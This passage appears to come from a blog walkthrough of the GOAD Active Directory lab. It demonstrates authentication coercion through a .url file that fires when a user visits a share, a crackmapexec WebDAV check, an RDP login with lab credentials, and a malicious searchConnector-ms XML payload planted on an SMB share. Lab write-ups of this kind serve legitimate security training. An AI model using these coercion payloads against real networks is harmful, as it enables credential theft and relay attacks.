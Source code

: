 ![part13_url_upload.png](/assets/blog/GOAD/part13_url_upload.png)

- And we also get the callback when the victim visit the share:

![part13_url_callback.png](/assets/blog/GOAD/part13_url_callback.png)

> Even if i named it "clickme.url" there is no need to click to coerce the user, a simple visit is enough
{: .prompt-tip }

## Webdav coerce

- first let's take a look if webdav is enable on servers: 

```bash
cme smb 192.168.10.10-23 -u arya.stark -p 'Needle' -d north.sevenkingdoms.local -M webdav
```

![part13_cme_webdav.png](/assets/blog/GOAD/part13_cme_webdav.png)

- There is no webdav server enabled.

- For this example we will use braavos server as a victim :

```bash
xfreerdp /d:essos.local /u:khal.drogo /p:horse /v:braavos.essos.local /cert-ignore
```

- On this server webclient is installed as we can see in the process but stopped

![part13_webclient_service.png](/assets/blog/GOAD/part13_webclient_service.png)

> Webclient is installed by default on windows workstations but in a stopped status. Webclient is not installed by default on windows server, it has been added on goad build as a custom vulnerability.
{: .prompt-info }

- Now we will upload our malicous payload to the smb server with the name : `myname.searchConnector-ms`

```
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription
xmlns="http://schemas.microsoft.com/windows/2009/searchConnector">
<description>Microsoft Outlook</description>
<isSearchOnlyItem>false</isSearchOnlyItem>
<includeInStartMenuScope>true</includeInStartMenuScope>
<templateInfo>
<folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
</templateInfo>
<simpleLocation>
<url>https://whatever/</url>
</simpleLocation>
</searchConnectorDescription>
```
